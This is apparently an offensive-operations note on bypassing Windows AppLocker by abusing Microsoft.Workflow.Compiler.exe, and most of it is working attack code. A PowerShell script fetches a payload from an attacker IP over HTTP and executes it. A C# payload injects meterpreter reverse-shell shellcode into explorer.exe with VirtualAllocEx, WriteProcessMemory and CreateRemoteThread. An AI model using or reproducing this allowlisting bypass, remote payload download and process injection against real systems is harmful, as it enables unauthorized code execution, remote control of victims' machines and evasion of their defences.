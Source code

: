 ```yaml
---
title: CSharp AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - bypass
  - allowlist
  - csharp
  - whitelist
---
```


Even with default **AppLocker** executable restrictions, we can still use
binaries on the host to compile and execute arbitrary C# .NET code. The
following **PowerShell** commands will use code from the
`Microsoft.Workflow.Compiler.exe` to generate a valid `run.xml` file designed to
compile and execute a C# .NET payload in the file `payload.txt`.

Be cognizant of the fact that this PowerShell script reflectively loads
assemblies and directly interacts with C# and .NET. If AppLocker scripting
restrictions are enabled, we will not be able to execute these commands on the
target. In this scenario, we'll have to generate the `run.xml` parameter file on
a development Windows host and then transfer `run.xml` and `payload.txt` to the
target.

Once we've generated the `run.xml` parameters file, we can execute the payload
by invoking `Microsoft.Workflow.Compiler.exe`, providing it with the `run.xml`
and `results.xml` parameters. Any issues with compiling the target `payload.txt`
C# .NET payload will be provided in the `results.xml` file.

```powershell
$workflowProgram = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "Microsoft.Workflow.Compiler.exe" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName

$workflowAsm = [Reflection.Assembly]::LoadFrom($workflowProgram)

$serializeInputToWrapper = `
	[Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod(
		'SerializeInputToWrapper',
		[Reflection.BindingFlags] 'NonPublic, Static'
	)

$workflowLibrary = (Get-ChildItem `
	-ErrorAction SilentlyContinue `
	-Path "C:\Windows" `
	-Filter "System.Workflow.ComponentModel.dll" `
	-Recurse `
	-File | Where-Object {$_.FullName -Like "*Framework64\v4*"}).FullName

Add-Type -Path $workflowLibrary

$compilerParam = New-Object `
	-TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters

$compilerParam.GenerateInMemory = $True
$pathVar = "payload.txt"
$output = (Join-Path -Path (Resolve-Path -Path .).Path -ChildPath "run.xml")

$tmp = $serializeInputToWrapper.Invoke(
	$null,
	@(
		[Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerParam,
		[String[]] @(,$pathVar)
	)
)

Move-Item $tmp $output
$lHost = "192.168.45.190"
$lPort = "80"

Invoke-RestMethod `
	-Uri "http://${lHost}:${lPort}/$pathVar" `
	-UseBasicParsing `
	-OutFile $pathVar

. $workflowProgram $output "results.xml"
```

The following C# .NET code is a simple process injection payload that loads a
**meterpreter** reverse shell payload into the `explorer.exe` process. We avoid
using any non-standard libraries that might require installation or inclusion as
this will fail at compile time.

```csharp
﻿using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Workflow.ComponentModel;
public class Run : Activity
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId
    );
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );
    public Run()
    {
        int explorerId = Process.GetProcessesByName("explorer")[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerId);
        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[854] {
            0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41,
            // ...
            0xc2, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5
        };
        IntPtr outSize;
        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
        IntPtr hThread = CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            addr,
            IntPtr.Zero,
            0,
            IntPtr.Zero
        );
    }
}
```
